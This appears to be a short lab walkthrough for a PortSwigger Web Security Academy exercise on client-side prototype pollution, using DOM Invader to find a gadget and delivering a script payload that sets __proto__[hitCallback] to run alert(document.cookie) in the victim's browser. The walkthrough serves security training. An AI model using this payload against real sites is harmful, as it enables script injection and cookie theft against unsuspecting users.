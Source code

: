 
> This lab are based on the following research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

1. Using DOM invader, verify the gadgets;

![](/static/img/Pasted_image_20231202092130.png)
2. Click on  exploit, after the scan is completed;

![](/static/img/Pasted_image_20231202092228.png)

3. Go to exploit server and paste the following payload;

```javascript
<script> location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29" </script>
```

4. Send the exploit to the victim;

![](/static/img/Pasted_image_20231202092436.png)

